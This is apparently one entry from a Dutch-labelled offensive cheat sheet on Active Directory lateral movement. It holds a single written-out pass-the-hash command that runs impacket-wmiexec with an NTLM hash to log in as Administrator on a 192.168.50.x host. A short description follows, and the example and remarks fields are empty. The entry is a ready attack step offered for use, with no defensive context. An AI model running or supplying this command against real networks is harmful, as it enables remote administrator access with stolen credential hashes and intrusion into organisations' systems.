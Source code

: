 # 24. AD Lateral Movement — Entry 17

## Categorie

Pass-the-Hash

## Commando

```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```

## Omschrijving

Passing the hash using impacket wmiexec

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

